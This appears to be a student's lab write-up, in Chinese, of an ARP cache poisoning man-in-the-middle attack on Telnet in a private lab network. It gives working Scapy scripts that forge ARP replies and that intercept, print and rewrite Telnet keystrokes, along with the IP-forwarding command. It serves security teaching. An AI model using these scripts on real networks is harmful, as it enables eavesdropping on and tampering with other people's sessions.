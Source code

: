 # Task 2: MITM Attack on Telnet using ARP Cache Poisoning
## Step 1 Launch the ARP cache poisoning attack

使用下面代码进行攻击：
```python
#!/usr/bin/env python3
from scapy.all import *
import time

E = Ether()

A = ARP()
A.psrc = '10.9.0.6'
A.pdst = '10.9.0.5'
A.hwdst = 'ff:ff:ff:ff:ff:ff'
A.op = 1

B = ARP()
B.psrc = '10.9.0.5'
B.pdst = '10.9.0.6'
B.hwdst = 'ff:ff:ff:ff:ff:ff'
B.op = 1

while(1):
    sendp(E/A)
    sendp(E/B)
    time.sleep(5)
```

## Step 2 Testing

由于目的ip地址被映射到了M的mac地址，所以ping的icmp包会发送到M，而M并不会回应，所以源地址主机会一直ping而没有回应，测试截图如下：
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/7.png)
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/6.png)


## Step 3 Turn on IP forwarding

使用下面命令设置M的转发自动转发打开：
```bash
sysctl net.ipv4.ip_forward=1
```
然后A和B就可以互相ping通了：
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/4.png)
![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/5.png)


## Step 4 Launch the MITM attack
+ 攻击时需要运行Step2中的代码。
+ telnet连接成功后设置Step3中的位为0
+ sniffandspoof代码如下
```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        #################################################################
        # Construct the new payload based on the old payload.
        # Students need to implement this part.
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load # The original payload data
            print("request\n\n")
            print(data)
            print(pkt[Ether].src)
            newdata = b'Z'   # No change is made in this sample code
            send(newpkt/newdata)
        else:
            send(newpkt)
            ################################################################
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # Create new packet based on the captured one
        # Do not make any change
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            print("reply\n\n")
            print(data)
            print(pkt[Ether].src)
        else:
            print("\nreply without load\n")
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt)
# f = "(tcp) and (not ether src host 02:42:0a:09:00:69)"
# f = 'tcp'
f = f"tcp and (not ether src 02:42:01:09:00:69)"
pkt = sniff(filter=f, prn=spoof_pkt)
```

攻击结果如下，在telnet的client端无论输入什么都会显示字符'Z'

![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/2.png)

根据程序中的辅助打印信息，可以很清晰地看出整个攻击过程，A发送'd'给M，M修改为'Z'发送给B，B回答'Z'给M，M直接转发'Z'给A，最终A输出'Z'

![](https://raw.githubusercontent.com/kryonsir/handsonsecuritylab/master/lab2/image/3.png)

